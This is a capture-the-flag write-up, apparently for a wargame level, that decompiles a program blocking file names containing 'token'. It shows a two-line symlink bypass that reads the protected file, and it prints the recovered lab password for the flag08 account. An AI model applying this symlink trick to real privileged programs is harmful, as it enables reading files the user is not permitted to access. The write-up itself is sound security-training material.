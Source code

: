 In the home directory, there is a program called 'level08' and a file named 'token.' I only have the right to execute the program.

The disassembled program using Ghidra (dogbolt.org) is as follows:

```c
int main(int argc, char **argv, char **envp)
{
  char *pcVar1;
  int __fd;
  size_t __n;
  ssize_t sVar2;
  int in_GS_OFFSET;
  int fd;
  int rc;
  char buf [1024];
  undefined local_414 [1024];
  int local_14;

  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc == 1) { // Need an argument
    printf("%s [file to read]\n",*argv);
    exit(1);
  }
  pcVar1 = strstr(argv[1], "token");
  if (pcVar1 != (char *)0x0) { // The name of the file can't contain 'token'
    printf("You may not access \'%s\'\n", argv[1]);
    exit(1);
  }
  __fd = open(argv[1], 0);
  if (__fd == -1) {
    err(1, "Unable to open %s", argv[1]);
  }
  __n = read(__fd, local_414, 0x400); // It reads the file
  if (__n == 0xffffffff) {
    err(1, "Unable to read fd %d", __fd);
  }
  sVar2 = write(1, local_414, __n); // It displays the file
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail();
  }
  return sVar2;
}
```

Your initial solution involved creating a symbolic link to 'token' with a name other than 'token':

```bash
ln -s /home/user/level08/token /tmp/flag
/home/user/level08/level08 /tmp/flag
```

This allowed you to obtain the flag by connecting to the user flag08 with the password: 'quif5eloekouj29ke0vouxean'.
